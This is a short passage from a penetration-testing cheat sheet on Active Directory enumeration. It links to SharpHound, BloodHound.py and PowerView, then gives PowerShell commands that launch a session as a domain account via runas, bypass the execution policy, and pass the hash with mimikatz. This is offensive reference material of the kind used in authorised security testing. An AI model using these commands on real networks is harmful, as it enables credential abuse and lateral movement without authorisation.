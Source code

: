 ## <a name='PRE-REQUISITES'></a>PRE-REQUISITES 

### <a name='DownloadingSharpHound'></a>Downloading SharpHound

- [SharpHound latest Scripts & Binary](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
- [Python Alternative](https://github.com/fox-it/BloodHound.py)

### <a name='RunningPowershellTools'></a>Running Powershell Tools

- [PowerView CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf)

#### <a name='SpawnanADaccount'></a>Spawn an AD account

![funny reminder](/assets/images/pen-win-sys-spawn-cmd.jpg)

:link: Check the **readthedocs of sharphound** to [spawn an AD account](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html#running-sharphound-from-a-non-domain-joined-system).

```powershell
# using a cleartext password
runas /netonly /user:adm_x@dom.corp powershell
powershell -ep bypass

# run powershell with pass-the-hash
mimikatz.exe
privilege::debug
sekurlsa::pth /user:$zlat_user /rc4:xxx  /domain:$zdom /dc:$zdom_dc_fqdn /run:"powershell -ep bypass"
```
